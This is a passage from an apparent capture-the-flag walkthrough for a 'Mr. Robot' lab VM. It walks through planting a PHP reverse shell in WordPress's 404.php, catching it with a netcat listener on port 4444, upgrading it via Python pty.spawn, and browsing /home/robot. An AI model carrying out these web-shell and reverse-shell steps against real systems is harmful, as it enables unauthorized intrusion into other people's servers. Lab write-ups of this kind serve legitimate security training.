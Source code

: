     ```
    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    ```

35. Change these lines to point to your local Kali system's virtualized `virbr0` interface:

    ```text
    $ip = '10.23.58.30';
    $port = 4444;
    ```

36. Now hit `Ctrl-A` to select all the text in the `mousepad` window, then `Ctrl-C` to copy it to the clipboard.

37. Now switch back to your web browser and select all the text in the current `404.php` document by using `Ctrl-A`.

38. Now hit `Ctrl-V` to replace that text with the PHP web shell from the clipboard.

39. Using the scrollbar on the far right side of the screen (to the right of the file names), scroll the page down until you can see the blue "Update File" button below the text you just copied in.

40. Click this blue "Update File" button.

41. In a terminal window, start a netcat listener to catch the reverse shell you will soon be sending:

    ```shell
    nc -l -p 4444
    ```

42. Now visit a non-existent link in your browser, to trigger the 404.php page:

    [http://mrrobot/this-page-does-not-exist](http://mrrobot/this-page-does-not-exist)

43. Switch back to the terminal window that has the netcat listener in it.  You'll find a shell!

44. This complains that it can't access a TTY.  Let's make this a more functional shell.  We'll construct and run a quick Python program, using a standard penetration test technique (works in both `python2` and `python3`!):

    ```shell
    echo "import pty" >/tmp/shell.py
    echo "pty.spawn('/bin/bash')" >>/tmp/shell.py
    python /tmp/shell.py
    ```

45. Now you have a TTY.  Poke around the system a bit.  When you're done exploring, list out `/home` to see what we can find about the system's users.

    ```shell
    ls /home
    ```

46. Note that there's a `robot` user.  Let's see if we can list their home directory:

    ```shell
    ls -l /home/robot
    ```
